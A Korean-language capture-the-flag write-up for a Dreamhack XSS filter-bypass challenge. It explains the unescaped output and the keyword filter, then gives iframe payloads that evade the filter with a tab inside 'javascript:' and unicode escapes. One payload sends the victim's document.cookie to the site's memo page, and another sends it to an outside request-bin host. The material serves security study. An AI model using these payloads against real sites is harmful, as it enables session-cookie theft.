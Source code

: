 <br/><br/>

## 문제 풀이
### 취약점이 존재하는 부분
vuln 페이지에서 전달된 탬플릿 변수를 기록할 때 HTML 엔티티 코드로 변환하여 저장하기 때문에 XSS 취약점이 발생하지 않는 ```render_template``` 함수를 이용하지 않고 ```return```을 통해 이용자의 입력값을 페이지에 그대로 출력하기 때문에 XSS 취약점이 발생함
* ```xss_filter()``` 함수를 이용한 필터링
    - XSS Filtering Bypass 문제와 동일하게 ```script```, ```on```, ```javascript``` 키워드를 필터링하고 있지만, 키워드를 단순히 치환(제거)하는 방식을 사용하지 않고 키워드가 탐지되었을 경우 ```"filtered!!"``` 문자열을 반환함
    - ```script```, ```on```, ```javascript```로 필터링을 수행한 다음 추가된 키워드인 ```window```, ```self```, ```this```, ```document```, ```location```, ```(```, ```)```, ```&#```로 다시 한 번 필터링을 진행하고 키워드가 탐지되었을 경우 ```"filtered!!"``` 문자열을 반환함
* 필터링 키워드를 단순히 치환하는 방식이 아니라 ```"filtered!!"``` 문자열을 반환하는 방식이기 때문에 **키워드의 중첩 사용으로 우회가 불가능함**
    - XSS 필터링을 우회하는 방법
        | 우회 방법 | 설명 |
        |---|------|
        | **다른 태그와 속성 사용** | ```<script>``` 태그 대신에 ```<iframe>``` 태그의 ```src``` 속성을 이용함 |
        | **정규화를 이용한 우회** | ```javascript:``` 스키마 사용을 필터링하고 있으므로 중간에 탭을 넣어 정규화를 통해 이를 우회함 |
        | **Unicode escape sequence 이용** | ```document```, ```location```의 ```d```를 ```\u0064```, ```on```을 ```\u006f\u006e```로 변환하여 우회 |

<br/><br/>

### 익스플로잇
#### 방법 1: memo 페이지 이용
1. flag 포인트에서 ```<iframe src='javascr	ipt:\u0064ocument.locati\u006f\u006e.href = "/memo?memo=" + \u0064ocument.cookie;'/>```를 입력하고 제출 버튼을 클릭함
    - ```<iframe src='javascript:document.location.href="/memo?memo="+document.cookie;'/>```를 입력한 것과 동일함
  <img width="978" alt="memo_1" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/9e916426-df8a-4ee5-8786-994b60f8ca06">


2. "good" 알림창이 출력되면 memo 페이지로 이동하여 화면에 출력된 임의 이용자의 쿠키 정보(FLAG)를 획득함
  <img width="978" alt="memo_2" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/b1f5cc7d-a9ab-460e-933d-18b985663a56">

<br/>

#### 방법 2: 외부 웹 서버 이용
1. 외부에서 접근 가능한 웹 서버를 준비함
    - Dreamhack에서 제공하는 드림핵툴즈 서비스의 Request Bin 기능을 이용함
        + Request Bin 항목에서 랜덤한 URL를 생성한 후 이를 이용하여 익스플로잇을 수행함

2. flag 페이지에서 ```<iframe src='javascr	ipt:\u0064ocument.locati\u006f\u006e.href = "https://RANDOMHOST.request.dreamhack.games/?memo=" + \u0064ocument.cookie;'/>```를 입력하고 제출 버튼을 클릭함
    - ```<iframe src='javascript:document.location.href="https://RANDOMHOST.request.dreamhack.games/?memo="+document.cookie;'/>```를 입력한 것과 동일함
  <img width="978" alt="외부 웹 서버_2" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/cfaf4c6f-3fc7-4875-9845-5c4b48655486">

3. "good" 알림창이 출력되면 웹 서버의 접속 기록을 확인하여 OueryString 부분에서 임의 이용자의 쿠키 정보(FLAG)를 획득함
  <img width="1527" alt="외부 웹 서버_3" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/f51c75ef-41b0-4537-9971-fcb6a9e0ba29">
